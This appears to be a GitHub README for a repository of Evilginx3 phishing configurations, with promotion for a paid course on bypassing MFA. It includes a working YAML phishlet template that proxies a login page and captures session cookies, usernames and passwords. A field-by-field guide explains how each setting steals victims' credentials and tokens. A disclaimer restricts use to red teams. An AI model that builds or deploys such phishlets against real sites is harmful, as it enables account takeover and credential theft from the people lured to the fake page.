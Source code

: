 
# Updated Evilginx3 Phishlets
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.

# Education: Want to master Phishing Attacks with Evilginx3? 

## Check out our new Evilginx Professional Masterclass! [![Evilginx Pro Masterclass](https://img.shields.io/badge/Evilginx-Professional%20Masterclass-darkred?style=for-the-badge&logo=github)](https://www.simplerhacking.com/courses/evilginx-course)

### Grab the course here: www.simplerhacking.com/courses/evilginx-course

![Evilginx Pro](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/e8845e9f-d993-4c05-adac-d213073aba4c)


## Use Code: GITHUB20 for a 20% off of the course!
### About the course: 
Become an Evilginx professional & learn how to bypass modern MFA with the latest version Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results. Get access to Phishlets not available on our public Github as well as tons of resources, templates & generators to aid your engagements.

### Course Previews:

![Evilginx Pro Course Preview](https://github.com/simplerhacking/Phishlet-Creator/assets/141525149/66bbf548-b340-4c91-8694-1f77209a5edb)

https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/fa7dcbf0-13cb-4cfc-b7a8-f944d824b0c2

![evilginx3 new course 3](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/389cadcc-4fa3-4859-89e8-0ce95af23f65)

## Attend the Free Evilginx Modern Phishing Webinar: www.simplerhacking.com/courses/evilginx-webinar

Learn how attackers use Evilginx & other tools to bypass MFA & gain access to information. Learn how Modern Business Email Compromise (BEC), and Evilginx Man-in-the-Middle (MITM) attacks are done from an attacker's perspective.
  
## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
## Send us an email to: info@simplerhacking.com 

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.

<img src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/bde083c3-551d-4c05-961d-8e493731a273" width="750" height="450">
